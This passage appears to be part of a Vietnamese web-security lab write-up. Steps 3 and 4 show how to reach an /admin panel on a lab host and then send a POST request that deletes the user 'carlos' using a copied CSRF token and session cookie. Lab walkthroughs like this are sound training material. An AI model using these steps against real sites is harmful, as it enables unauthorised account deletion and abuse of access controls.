 3. **Truy cập admin panel**

   - Gửi request:

     ```
     GET /admin
     Host: 192.168.0.107
     ```

   - Response hiển thị form xoá user, có CSRF token và cần session cookie

     ![image-20250827122800492](./image/image-20250827122800492.png)

4. **Khai thác xoá user**

   - Copy `csrf` token và `session` cookie từ response.

   - Tạo request:

     ```
     POST /admin/delete?csrf=xxx&username=carlos HTTP/1.1
     Host: 192.168.0.107
     Cookie: session=...
     Content-Type: application/x-www-form-urlencoded
     ```

     ![image-20250827123437741](./image/image-20250827123437741.png)